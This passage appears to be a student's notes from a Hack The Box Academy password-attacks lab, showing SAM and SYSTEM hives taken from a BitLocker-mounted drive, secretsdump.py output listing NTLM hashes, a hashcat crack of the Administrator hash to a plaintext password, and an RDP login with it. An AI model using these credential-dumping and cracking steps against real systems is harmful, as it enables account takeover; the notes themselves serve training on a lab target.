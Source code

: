     total 19100
    drwxrwxrwx 1 root root     4096 Feb 11  2022  .
    drwxr-xr-x 1 root root       64 Nov  9 18:36  ..
    drwxrwxrwx 1 root root        0 Feb 11  2022 '$RECYCLE.BIN'
    -rwxrwxrwx 1 root root    77824 Feb 11  2022  SAM
    -rwxrwxrwx 1 root root 19472384 Feb 11  2022  SYSTEM
    drwxrwxrwx 1 root root     4096 Feb 11  2022 'System Volume Information'
    ```
    

### Run [secretsdump.py](http://secretsdump.py/) locally against the SAM and SYSTEM files:

```Bash
┌─[us-academy-2]─[10.10.14.225]─[htb-ac330204@htb-eixdx1f9yx]─[/media/bitlockermount]
└──╼ [★]$ secretsdump.py LOCAL -sam SAM -system SYSTEM 

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e53d4d912d96874e83429886c7bf22a1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9e73cc8353847cfce7b5f88061103b43:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:6ba6aae01bae3868d8bf31421d586153:::
david:1009:aad3b435b51404eeaad3b435b51404ee:b20d19ca5d5504a0c9ff7666fbe3ada5:::
johanna:1010:aad3b435b51404eeaad3b435b51404ee:0b8df7c13384227c017efc6db3913374:::
[*] Cleaning up... 
```

### Crack the NTLM Hash

```Bash
┌─[us-academy-2]─[10.10.14.225]─[htb-ac330204@htb-eixdx1f9yx]─[/media/bitlockermount]
└──╼ [★]$ hashcat -a 0 -m 1000 e53d4d912d96874e83429886c7bf22a1 /home/htb-ac330204/mut_password.list

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache built:
* Filename..: /home/htb-ac330204/Password-Attacks/mut_password.list
* Passwords.: 94044
* Bytes.....: 1034072
* Keyspace..: 94044
* Runtime...: 0 secs

e53d4d912d96874e83429886c7bf22a1:Liverp00l8!     
<SNIP>
```

e53d4d912d96874e83429886c7bf22a1:==Liverp00l8!==

### Login into RDP as the Adminitrator User

```Bash
xfreerdp3 /v:STMIP /u:Administrator /p:'Liverp00l8!' /dynamic-resolution
```

![[/image 5 9.png|image 5 9.png]]

![[/image 6 8.png|image 6 8.png]]